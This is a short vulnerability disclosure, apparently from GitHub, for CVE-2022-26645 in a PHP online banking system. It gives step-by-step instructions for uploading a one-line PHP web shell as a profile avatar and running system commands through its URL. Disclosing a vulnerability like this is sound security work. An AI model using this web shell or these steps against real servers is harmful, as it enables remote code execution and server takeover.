 # Tittle: Online Banking System RCE

## Author: (Erik451)
### Vendor Homepage: [https://www.sourcecodester.com/](https://www.sourcecodester.com/)
### Software Link: [https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html](https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html)
### Version: OBS 1.0
## CVE: [CVE-2022-26645](https://www.cvedetails.com/cve/CVE-2022-26645)
-  Description: Potential RCE and XSS via file upload. A user can use the upload functionality to gain access to the server crafting php code.

####  Steps to reproduce:

-  **1- Go to [http://web.com/admin/?page=user](http://web.com/admin/?page=user)**
-  **2- Modify your avatar profile and upload your php code.**

Payload used: `<?php echo shell_exec($_GET['shell']);?>`

![phpcode](https://user-images.githubusercontent.com/47476901/160638195-898d61e9-4467-4e32-b95c-362c0aecff97.png)



-  **3- We can see the url of the uploaded file clicking on the image zone.**

![upload](https://user-images.githubusercontent.com/47476901/160638239-48088317-ba7f-497a-bfb4-91eb9570eda7.png)

- **4- Going to that url we will execute the code.**

http://<ip_server>/uploads/1648559940_shell.php?shell=id
![rce](https://user-images.githubusercontent.com/47476901/160638221-ec57e5bf-4793-459e-8763-a913e496825b.png)

